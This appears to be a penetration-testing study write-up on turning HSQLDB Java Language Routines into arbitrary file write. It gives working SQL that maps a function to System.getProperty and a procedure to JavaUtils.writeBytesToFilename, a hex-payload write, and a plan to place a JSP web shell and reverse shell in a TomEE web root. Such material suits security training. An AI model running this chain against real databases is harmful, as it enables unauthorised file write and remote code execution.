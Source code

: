 # Java Language Routines

From HSQLDB, we can call static methods of a Java class using Java Language Routines (JRTs). When doing so, we can only use certain variable types that are mostly primitives and simple objects that map between Java and SQL types. 

JRTs can be defined as functions or procedures

- **Functions** can be used as part of normal SQL statement if Java method returns variable.
- If Java method returns void, need to use a **procedure** that is invoked with a `CALL` statement.

## POC

Create a POC function that enables us to check system properties by calling`System.getProperty()` method. This method call takes in a String value and returns a String value. We’ll run this SQL code to create our function in the HSQLDB manager GUI. 

```sql
CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
LANGUAGE JAVA 
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

Once the function is called, we need to call it. Unlike a table called with SELECT, we call the function using a VALUES without specifying a SELECT from a table. We pass in `java.class.path`as our parameter. 

```sql
VALUES(systemprop('java.class.path'))

Output:
./hsqldb.jar
```

A java process always has access to default Java classes. If we want to use a function or procedure for anything malicious, we need a method in `hssqldb.jar` or in the core Java files.

1. The method must be static
2. Method parameters must be primitives or types that map to SQL types
3. Method must return a primitive, object that maps to an SQL type, or void. All java classes must return something. 
4. The method must run code directly or write files to the system. 

## Code Inspection

We can use jd-gui to search for methods. Prior to Java v9, standard classes were stored in `lib/rt.jar` (and now just stored in any file in the `lib` directory). We’ll transfer the file out of the target host, export the source files out of GD-GUI and open with VSCode. 

We search for methods that are public, static, return void and take a string as a parameter

```sql
public static void \w+\(String
```

Among them, we find `writeBytesToFilename`, which provides us with arbitrary file write. 

```sql
public static void writeBytesToFilename(String paramString, byte[] paramArrayOfbyte) {
    FileOutputStream fileOutputStream = null;
    try {
    if (paramString != null && paramArrayOfbyte != null) {
        File file = new File(paramString);
        
        fileOutputStream = new FileOutputStream(file);
        
        fileOutputStream.write(paramArrayOfbyte);
        fileOutputStream.close();
    }
    else if (log.isLoggable(Level.FINE)) {
        log.log(Level.FINE, "writeBytesToFilename got null byte[] pointed");
    }
    
    } catch (IOException iOException) {
    if (fileOutputStream != null) {
        try {
        fileOutputStream.close();
        } catch (IOException iOException1) {
        if (log.isLoggable(Level.FINE)) {
            log.log(Level.FINE, iOException1.getMessage(), iOException1);
        }
        } 
    }
    } 
}
```

Since this method returns void, we can call it from a procedure. To call it, we should provide a string value (file name) and a byte array (file contents). We’ll create a new procedure that uses a VARCHAR for the `paramString` parameter and a VARBINARY for the `paramArrayOfByte` parameter. The VAR prefix in Java allows us to define **variable-length** strings. We set the size of the VARBINARY to 1024 for sufficient length for the payload. 

```sql
CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte 
VARBINARY(1024)) 
LANGUAGE JAVA 
DETERMINISTIC NO SQL
EXTERNAL NAME 
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

When we prepare our payload, we can use the Decoder tool in Burp Suite to prepare a POC by converting to ASCII hex. 

```sql
call writeBytesToFilename ('test.txt', cast('546573742053756363657373' AS VARBINARY(1024)))
```

## JSP Shell

Now that we have file write functionality, we can write a JSP web shell into the web root, `~/crx/apache-tomee-plus-7.0.5/webapps/ROOT`. From there, we can send a reverse shell through the JSP web shell.
